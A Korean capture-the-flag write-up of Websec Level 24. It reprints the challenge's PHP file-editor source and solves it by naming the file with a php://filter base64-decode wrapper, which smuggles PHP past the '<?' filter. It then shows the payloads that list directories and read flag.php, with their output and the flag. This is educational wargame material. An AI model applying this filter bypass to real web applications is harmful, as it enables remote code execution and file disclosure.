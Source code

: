 ```yaml
---
title: Websec - Level 24 (풀이 봄)
categories: [Wargame, Websec]
tags: [php wrapper, php filter vulnerability, php file system using with wrapper, 풀이 봄]
---
```


## Websec24
<hr style="border-top: 1px solid;"><br>

![image](https://user-images.githubusercontent.com/52172169/155844447-54a998d0-0071-44f8-872a-71c6c8f842f2.png)

<br>

```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

session_start();

include 'clean_up.php';

/* periodic cleanup */
foreach (glob("./uploads/*") as $file) {
    if (is_file($file)) {
        unlink($file);
    } else {
        if (time() - filemtime($file) >= 60 * 60 * 24 * 7) {
            Delete($file);
        }
    }
}

$upload_dir = sprintf("./uploads/%s/", session_id());
@mkdir($upload_dir, 0755, true);

/* sandboxing ! */
chdir($upload_dir);
ini_set('open_basedir', '.');

$p = "list";
$data = "";
$filename = "";

if (isset($_GET['p']) && isset($_GET['filename']) ) {
    $filename = $_GET['filename'];
    if ($_GET['p'] === "edit") {
        $p = "edit";
        if (isset($_POST['data'])) {
            $data = $_POST['data'];
            if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
                file_put_contents($_GET['filename'], $data);
                die ('<meta http-equiv="refresh" content="0; url=.">');
            }
        } elseif (file_exists($_GET['filename'])){
            $data = file_get_contents($_GET['filename']);
        }
    }
}
?>
```

<br>

```php
<?php if ($p === "list") {
    echo "<div class='panel panel-default'>";
    echo "<div class='panel-heading'><h3 class='panel-title''>Index of <mark>$upload_dir</mark>:</h3></div>";
    echo "<div class='panel-body'><ul>";
    foreach (array_diff(scandir('.'), ['..', '.']) as $fn)
        echo "<li><a href='?p=edit&filename=$fn'>$fn</a></li>";
    echo "</ul></div></div>";
    ?>
    <form method="GET" class="form-inline">
        <div class="form-group">
            <input type="hidden" name="p" value="edit">
            <label for="filename">Create a new file:</label>
            <input class='form-control' type="text" name="filename" placeholder="file name">
        </div>
        <div class="form-group">
            <button type="submit" class='btn btn-default col-md-2 form-control' value="Submit">Create</button>
        </div>
    </form>

<?php } elseif ($p === "edit") {
    echo "<div class='panel panel-default'>";
    echo "<div class='panel-heading'><h3 class='panel-title''>";
    echo "File <mark>$filename</mark>'s content: <a type='button' class='close' href='.'><span>&times;</span></a></h3>";
    echo "</div>";
    echo "<div class='panel-body'>";
    echo "<form action='?p=edit&filename=$filename' method='post'>";
    echo "<input type='hidden' name='filename' value='$filename'>";
    echo "<textarea class='form-control' name='data' rows='6'>" . htmlentities($data) . "</textarea><br>";
    echo "<a type='button' class='btn btn-default' href='.'>Cancel</a> ";
    echo "<button type='submit' class='btn btn-default' value='Submit'>Save changes</button>";
    echo "</form>";
    echo "</div></div>";
} ?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

php glob 함수, chdir 함수
: <a href="https://www.habonyphp.com/2020/07/php-glob.html" target="_blank">habonyphp.com/2020/07/php-glob.html</a>
: <a href="https://www.habonyphp.com/2020/07/php-chdir.html" target="_blank">habonyphp.com/2020/07/php-chdir.html</a>

<br>

php ini_set, open_basedir
: <a href="https://choseongho93.tistory.com/207" target="_blank">choseongho93.tistory.com/207</a>
: <a href="https://www.php.net/manual/en/ini.core.php#ini.open-basedir" target="_blank">php.net/manual/en/ini.core.php#ini.open-basedir</a>
: <a href="https://idchowto.com/php-보안설정중-open_basedir-적용하기/" target="_blank">idchowto.com/php-보안설정중-open_basedir-적용하기</a>  --> GOOD

<br>

open_basedir을 우회해서 파일을 읽어야되는 줄 알았으나 아니였음..

<br>

file_put_contents, file_get_contents는 php wrapper를 사용할 수 있다고 함.
: <a href="https://www.php.net/manual/en/function.file-put-contents.php" target="_blank">php.net/manual/en/function.file-put-contents.php</a>
: <a href="https://www.php.net/manual/en/function.file-get-contents.php" target="_blank">php.net/manual/en/function.file-get-contents.php</a>

<br>

중요한 점은 file system 함수들은 wrapper가 사용 가능하다는 점이다.

<br>

![image](https://user-images.githubusercontent.com/52172169/155880514-1ca0bfd4-fefc-4bfd-82b3-088d420d2a16.png)

<br>

따라서 ```php://filter/convert.base64-decode/resource=test.php``` 라는 wrapper를 이용해서 파일을 생성해주면 test.php가 생성이 된다.

그 내용으로 ```<?php echo var_dump(scandir('../../')); ?>```를 base64 encode를 해줘서 넣어주면 디코드되어 php 코드가 들어가 있는 test.php가 생긴다.

그럼 ```/upload/sessionid/test.php```로 가보면 아래와 같이 출력된다.

<br>

```
array(9) 
{ 
  [0]=> string(1) "." 
  [1]=> string(2) ".." 
  [2]=> string(12) "clean_up.php" 
  [3]=> string(8) "flag.php" 
  [4]=> string(9) "index.php" 
  [5]=> string(12) "php-fpm.sock" 
  [6]=> string(10) "source.php" 
  [7]=> string(7) "uploads" 
  [8]=> string(3) "var" 
}
```

<br>

그 다음 동일하게 flag.php를 출력해주면 된다....

<br>

```<?php echo file_get_contents('../../flag.php'); ?>```

<br>

Flag 
: ```WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
